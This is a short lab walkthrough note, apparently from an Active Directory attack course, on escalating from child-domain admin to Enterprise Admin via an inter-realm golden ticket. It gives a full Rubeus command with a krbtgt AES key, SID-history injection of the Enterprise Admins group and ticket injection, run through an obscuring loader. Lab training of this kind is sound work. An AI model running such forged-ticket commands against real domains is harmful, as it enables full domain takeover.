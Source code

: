 
Task 

• Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local.



We already have the krbtgt hash of us.techcorp.local. Let's create the inter-realm TGT and inject. Run the below command from an elevated shell on the student VM:


```
echo %Pwn% golden
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /id:500 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:513 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /ptt
```

![[Pasted image 20250323202009.png]]

![[Pasted image 20250323202132.png]]

